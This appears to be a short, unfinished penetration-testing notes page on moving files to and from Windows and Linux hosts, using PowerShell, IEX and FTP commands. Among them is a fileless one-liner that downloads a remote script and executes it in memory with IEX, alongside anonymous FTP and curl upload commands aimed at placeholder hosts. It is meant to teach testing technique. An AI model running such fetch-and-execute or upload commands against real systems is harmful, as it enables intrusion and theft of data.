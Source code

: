 ```yaml
---
title: "File Transfers for Penetration Testing"
date: 2024-07-30
---
```


---

# Windows

## Download Files using Powershell

The esiast way to download files using Powershell is to use the `Net.WebClient` class. This class provides a intuitive way to download HTTP HTTPS and FTP files.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadFile("http://example.com/file.txt", "C:\path\to\file.txt")
```

Of course, you can also use the `Invoke-WebRequest` cmdlet which is the windows equivalent of `curl` or `wget`. The `DownloadFile` method is used to download a file to a specified location.

```powershell
Invoke-WebRequest -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
curl -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
# or
wget -Uri "http://example.com/file.txt" -OutFile "C:\path\to\file.txt"
```

## Download Fileless strings using Powershell

In very rare cases, you may need to download a file without writing it to disk. This can be done using the `Net.WebClient` class and the `DownloadString` method. The IEX command can be used to execute the downloaded script.

```powershell
$webClient = New-Object System.Net.WebClient
$webClient.DownloadString("http://example.com/file.txt") | IEX
```

---

# Linux

---

# FTP

### Server

We can start a FTP server on a linux and window machine using the following command, just make sure to have the `pyftpdlib` package installed using pip or any other package manager:

```bash
sudo python3 -m pyftpdlib -i <IP> -p 21
```

### Client Download

here is how we can download a file from the FTP server:

```bash
ftp <IP>
UserName: anonymous
Password: anonymous
ftp> get <FileName>
```

or

```bash
wget ftp://<IP>/<FileName>
```

### Client Upload

````bash
ftp <IP>
UserName: anonymous
Password: anonymous
ftp> put <FileName>

```bash
curl -T localfile.txt ftp://anonymous:anonymous@ftp.<IP>/path/to/remote/file.txt
````

{{< comments >}}

